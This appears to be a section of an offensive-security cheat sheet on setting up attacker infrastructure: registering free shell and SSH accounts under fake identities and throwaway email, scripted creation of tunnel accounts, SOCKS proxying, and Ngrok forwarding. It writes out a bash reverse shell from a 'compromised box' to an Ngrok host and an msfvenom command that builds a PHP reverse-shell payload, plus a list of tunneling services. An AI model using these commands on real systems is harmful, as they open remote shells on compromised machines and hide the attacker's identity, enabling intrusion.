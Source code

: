 #### 6.1. Shells for shenanigans

1. get identity on `https://www.fakenamegenerator.com/`
2. get an email address on `https://mail.com` (no 2FA required, fuck GMail)
3. fill in data on `https://freeshells.org` or `https://clients.freeshells.org/cart.php?a=add&pid=8` (from step 1)
Panel: `https://war.freeshells.org:8080`
Confirm account on `https://kiwiirc.com`
4. wait for SSH creds on email account (from step 2)
5. run a NC listener and test it via `https://www.adminkit.net/telnet.aspx` (you should get a connect back)


#### 6.2. Transparent proxy
```
# ncat -lv -p 8081 -k -m 100 --proxy-type http
# http --proxy=https:http://172.16.201.160:8081 https://icanhazip.com -b
```


#### 6.3. vpnjantit (SSH tunneling)

1. create SSH account on `https://www.vpnjantit.com/free-ssh-7-days.html`
```
# url='https://www.vpnjantit.com/create-free-account.html?type=SSH&server=fr1'
# user=abc$RANDOM; pass=def$RANDOM
# http -f $url Referer:$url Content-Type:application/x-www-form-urlencoded user=$user pass=$pass \
| grep -oE 'Your SSH Account successfully created!' >/dev/null && echo $user:$pass
```

2. create tunnel
```
# sshpass -p $pass ssh -NfD 9050 $user-vpnjantit.com@ssh-fr1.vpnjantit.com
# netstat -tlnpe | grep 9050
````

3. test the tunnel
```
# http --proxy=https:http://172.16.201.160:8081 
# proxy='localhost:9050'
# host -t A ssh-fr1.vpnjantit.com # expected IP
ssh-fr1.vpnjantit.com has address 185.35.67.207
# http --proxy=http:socks5://$proxy --proxy=https:socks5://$proxy https://icanhazip.com -b
185.35.67.207
```

4. close the tunnel
```
# netstat -tlnpe 2>/dev/null | grep 9050 | awk '{print $9}' | sort -u | sed 's/\/.*//g' | xargs kill
```


#### 6.4. Ngrok

1. create account
2. download and unzip Ngrok
3. register API key
```
# ./ngrok authtoken <token>
```
4. start local listener on arbitrary port
```
# ncat -nlvp 7777
# ngrok tcp 7777
...
Forwarding                    tcp://0.tcp.ngrok.io:<PORT> -> localhost:7777
```
5. connect to Ngrok host from compromised box
```
# bash -i >& /dev/tcp/0.tcp.ngrok.io/<PORT> 0>&1
```
6. msfvenom payload
```
# echo '<?php' > shell.php; msfvenom -p php/reverse_php LHOST=0.tcp.ngrok.io LPORT=<PORT> -e php/base64 -f raw >> shell.php
```


#### 6.5. Other services
- `ngrok.com`, `ngrok.io`
- `portmap.com`, `portmap.io`
- `serveo.net`
- `localtunner.me`
- `pagekite.net`
- `shells.red-pill.eu`
